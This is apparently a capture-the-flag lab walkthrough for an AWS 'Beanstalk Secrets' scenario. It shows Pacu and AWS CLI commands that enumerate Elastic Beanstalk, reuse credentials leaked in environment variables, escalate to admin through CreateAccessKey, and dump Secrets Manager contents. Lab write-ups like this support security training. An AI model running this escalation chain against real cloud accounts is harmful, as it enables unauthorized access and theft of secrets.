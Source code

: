 # test
# Beanstalk Secrets Walkthrough

## Summary

In this scenario, you are provided with low-privileged AWS credentials. Your task is to enumerate Elastic Beanstalk applications and environments, discover misconfigured environment variables that leak secondary credentials, and then use these credentials to enumerate IAM permissions. By exploiting the ability to create an access key for an administrator user, you will escalate your privileges and ultimately retrieve the final flag stored in AWS Secrets Manager.

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an AWS Access Key ID and Secret Access Key for the low-privileged user. Configure your AWS CLI profile with these credentials:

```bash
aws configure --profile beanstalk
```

You will be prompted for the Access Key, Secret Key, Region, and output format. For example:

```bash
AWS Access Key ID: AKIA2HV********
AWS Secret Access Key: v+xInRa11dSj**************
Default region name: us-east-1
Default output format: json
```

Verify your access:

```bash
aws sts get-caller-identity --profile beanstalk
```

### Enumerating Elastic Beanstalk

Use Pacu to enumerate Elastic Beanstalk applications and environments:

```bash
Pacu (beanstalk:imported-beanstalk) > run elasticbeanstalk__enum --region us-east-1
```

The module will list available applications and environments. Notice the misconfigured environment where environment variables reveal secondary credentials.

### Checking Permissions with Pacu

Next, assess the permissions of the low-privileged user by enumerating available IAM actions:

```bash
Pacu (beanstalk:imported-beanstalk) > run iam__bruteforce_permissions --region us-east-1
```

Review the output to understand the limited permissions available on Elastic Beanstalk and IAM.

### Switching to the Secondary User

The Elastic Beanstalk environment stores secondary credentials in its environment variables. Use these credentials to configure a new AWS CLI profile:

```bash
aws configure --profile beanstalk2
```

Verify the secondary user’s access:

```bash
aws sts get-caller-identity --profile beanstalk2
```

### Enumerating IAM with the Secondary User

With the secondary credentials, enumerate IAM permissions:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__enum_permissions
```

This will display additional IAM permissions, including the ability to create an access key for other users.

### Privilege Escalation with CreateAccessKey

Run the privilege escalation scan in Pacu to identify exploitable methods:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --scan-only
```

Notice that the `CreateAccessKey` method is confirmed as a viable escalation vector. Now execute the method to target the administrator user:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --user-methods CreateAccessKey
```

Follow the prompts to select the admin user. Pacu will then generate a new access key for the admin user and display the credentials.

### Configuring the Admin Profile

Using the new admin credentials, set up an AWS CLI profile:

```bash
aws configure --profile admin
```

Enter the provided admin Access Key ID and Secret Access Key. Confirm access:

```bash
aws sts get-caller-identity --profile admin
```

### Retrieving the Final Flag

Finally, with admin privileges, run the secrets enumeration module to retrieve the final flag:

```bash
Pacu (beanstalk3:imported-admin) > run secrets__enum --region us-east-1
```

Check the downloaded secrets in the Pacu output directory (typically under `~/.local/share/pacu/<session>/downloads/secrets/`). For example:

```bash
cat ~/.local/share/pacu/beanstalk3/downloads/secrets/secrets_manager/secrets.txt
```

The file should contain the final flag, for example:  
`FLAG{*********************}`
